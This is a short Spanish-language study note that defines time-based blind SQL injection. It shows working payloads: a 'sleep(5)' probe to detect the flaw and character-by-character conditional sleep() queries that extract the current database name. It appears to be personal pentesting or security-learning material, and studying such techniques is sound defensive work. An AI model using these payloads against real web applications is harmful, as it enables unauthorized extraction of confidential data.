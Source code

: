 # Time-based Blind SQL injection

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #sql #exploiting

***

## Definición

> La **Inyección SQL basada en tiempo (Time-based SQL Injection)** es un tipo de \[\[SQL Injection]] en aplicaciones web donde los atacantes introducen código malicioso para retrasar respuestas y deducir información de la base de datos. Aprovechan pausas en las respuestas para inferir si las consultas son verdaderas o falsas, permitiéndoles extraer datos confidenciales.

Para proceder con este tipo de inyección, procederemos de una forma bastante similar que con \[\[Boolean-based Blind SQL Injection]], solo que ahora en vez de comprobar con el estado de la respuesta, lo hacemos con pausas en la web, por ejemplo podemos insertar la siguiente query para comprobar si realmente espera lo solicitado, y si es así, sabremos que es vulnerable:

```
?id=1 and sleep(5)
```

Para conseguir información relevante, podemos realizar la siguiente sentencia para conseguir el nombre de la **base de datos actual**, e ir probando con los distintos valores hasta que se realice la espera solicitada:

```
#Probando primer carácter
id = 1 and if(ascii(substr(database(),1,1))=97,sleep(5),1); #No espera 5 segs
id = 1 and if(ascii(substr(database(),1,1))=98,sleep(5),1); #No espera 5 segs
id = 1 and if(ascii(substr(database(),1,1))=99,sleep(5),1); #Espera 5 segs => El primer carácter es una c

#Probando segundo carácter
id = 1 and if(ascii(substr(database(),2,1))=97,sleep(5),1); #No espera 5 segs
id = 1 and if(ascii(substr(database(),2,1))=98,sleep(5),1); #No espera 5 segs
.....
```

Utilizamos dicho principio para programar el script \[\[sqli.py]].
